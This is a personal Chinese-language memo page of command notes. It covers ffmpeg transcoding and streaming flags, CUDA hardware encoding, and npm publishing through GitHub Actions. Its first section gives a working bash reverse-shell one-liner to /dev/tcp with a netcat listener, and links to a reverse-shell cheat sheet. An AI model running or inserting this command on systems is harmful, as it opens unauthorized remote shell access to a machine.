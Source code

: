 ```yaml
---
title: 备忘录
description: 我什么都记不住
---
```


# 备忘录

## Reverse Shell (Bash TCP) mark

```bash
# 本地开一个 5555 端口监听（extra/gnu-netcat）
nc -lvnp 5555

# 想办法在对面设备上面执行
bash -i >& /dev/tcp/192.168.24.1/5555 0>&1
```

[其他手段](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)

## FFmpeg

转码

```sh
ffmpeg \
# 输入视频
-i input-1.mp4
# 设置起始时间
-ss 00:01:00
# 设置结束时间
-to 00:02:00
# 设置视频编码格式
-c:v hevc
-c:v copy
# 设置视频码率
-b:v 8M
# 设置音频编码格式
-c:a aac
-c:a copy
# 设置音频码率
-b:a 340k
# 设置输出格式（一般可以自动推断）
-f mp4
# 设置输出文件
output.mp4
```

推流

```sh
ffmpeg \
# 设置推流速度为播放速度
-re
# 输入
-i input-1.mp4
# 设置编码格式
-c copy
# 设置容器格式
-f flv
# 推流地址
rtmp://xxx/xxx
```

### 硬件编解码（需要 cuda）

```sh
ffmpeg \
-hwaccel cuda
-c:v h264_nvenc
-c:v hevc_nvenc
-c:v av1_nvenc
```

## GitHub Action

### 发布 npm publish

1. 首先打开 npmjs.org，申请一个 access token
2. 在 GitHub 上点仓库设置，选择 Environments，创建一个新的 NPM_TOKEN，在里面添加新的 Secret，名称为 NPM_TOKEN，值为上面获取的 access token
3. 复制粘贴这份 [YAML](https://github.com/biliblitz/blitz/blob/master/.github/workflows/build.yml)
